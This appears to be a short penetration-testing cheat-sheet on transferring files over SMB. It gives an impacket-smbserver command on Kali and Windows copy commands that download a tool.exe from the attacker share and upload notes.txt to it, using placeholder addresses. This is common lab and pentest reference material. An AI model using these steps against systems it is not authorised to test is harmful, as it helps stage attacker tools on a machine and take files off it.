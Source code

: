 # SMB Share

### 1) On Kali, create an SMB Server using impacket

    impacket-smbserver -smb2support <share_name> <directory>

### 2) Transfer files using the copy command on Windows machine

Download: 
    
    copy \\<Kali-IP>\<share_name>\tool.exe

Upload: 
    
    copy notes.txt \\<Kali-IP>\<share_name>\
